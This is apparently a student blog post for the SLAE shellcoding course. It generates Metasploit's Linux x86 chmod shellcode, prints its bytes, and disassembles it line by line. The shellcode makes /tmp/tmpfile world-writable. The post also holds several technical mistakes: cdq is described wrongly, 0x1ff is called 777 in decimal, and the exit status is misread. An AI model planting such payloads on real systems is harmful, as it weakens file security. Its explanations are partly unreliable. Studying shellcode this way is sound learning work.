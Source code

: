 # Analyze: chmod

# Create shellcode
```bash
msfvenom -p linux/x86/chmod -f c FILE=/tmp/tmpfile MODE=0777
```

This shellcode will change the permissions of the target file `/tmp/tmpfile` to `0777` or read/write/execute for all users.

# Analysis

## Disassemble w/ bash
```bash
echo -n "\x99\x6a\x0f\x58\x52\xe8\x0d\x00\x00\x00\x2f\x74\x6d\x70\x2f\x74\x6d\x70\x66\x69\x6c\x65\x00\x5b\x68\xff\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

## Disassembled Assembly

```assembly
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80D000000        call 0x17
0000000A  2F                das
0000000B  746D              jz 0x7a0000000D  702F              jo 0x3e
0000000F  746D              jz 0x7e
00000011  7066              jo 0x79
00000013  696C65005B68FF01  imul ebp,[ebp+0x0],dword 0x1ff685b
0000001B  0000              add [eax],al
0000001D  59                pop ecx
0000001E  CD80              int 0x80
00000020  6A01              push byte +0x1
00000022  58                pop eax
00000023  CD80              int 0x80
```

## Disassembly Analysis
The first instruction is:

```assembly
00000000  99                cdq
```

This one is quite interesting, it seems to be clearing the value of `eax`, however, it seems unnecessary as a value from the stack is poped into eax in the next couple instructions. I belive it is also clearing out the value of edx as edx is pushed to the stack next, and this would be the only instruction used to control the value in edx. Very interesting!

```assembly
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
```

The value of `0xf` is the number `15` in decimal form and corresponds to the function [chmod()](https://man7.org/linux/man-pages/man2/chmod.2.html) when the syscall is triggered. It's function definition looks like this:

```c
int chmod(const char *pathname, mode_t mode)
```

Next a call is made to 0x17, which will place the pointer to `0000000A` on the stack and will probably be used later as a string. I can confrim this because the instructions that start at `0000000A` are a mess and decode to a string. `2F746D702F746D7066696C6500` correspond to the string `/tmp/tmpfile`

```assembly
00000005  E80D000000        call 0x17
0000000A  2F746D702F746D7066696C6500  ; /tmp/tmpfile
```

To rebuild the rest of the shellcode from being scrambled and offset, I will run this command with the remaining shellcode bytes that have yet to be analyzed:

```bash
echo -n "`python2 -c 'print "\x90"*23'`\x5b\x68\xff\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -p intel - | grep -v nop
```

Then the pointer to the string on the stack is poped into `ebx`, the value of `0x1ff` is pushed to the stack and poped into `ecx` as the second parameter to chmod and is `777` in decimal (global read/write/execute).

```assembly
00000017  5B                pop ebx             ; ptr to: [string] /tmp/tmpfile
00000018  68FF010000        push dword 0x1ff    ; 
0000001D  59                pop ecx             ; ecx = 0x1ff - OCT = 777
0000001E  CD80              int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)
```

Finally, the program exits gracefully with a status code of 1. 

```assembly
00000020  6A01              push byte +0x1      
00000022  58                pop eax
00000023  CD80              int 0x80            ; exit()
```





## Disassembled (Cleaned and commented)

Here I have cleaned and commented the code in totality:

```assembly
00000000  99                cdq             
00000001  6A0F              push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"
                                                
00000003  58                pop eax             ; int chmod(const char *pathname, mode_t mode);
00000004  52                push edx            ; 
00000005  E80D000000        call 0x17           ; jmp label1


0000000A  2F746D702F746D7066696C6500            ; (ascii) /tmp/tmpfile

lebel1:
00000017  5B                pop ebx             ; ptr to: [string] /tmp/tmpfile
00000018  68FF010000        push dword 0x1ff    ; 
0000001D  59                pop ecx             ; ecx = 0x1ff - OCT = 777
0000001E  CD80              int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)



00000020  6A01              push byte +0x1      
00000022  58                pop eax
00000023  CD80              int 0x80            ; exit()
```



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: PA-29350
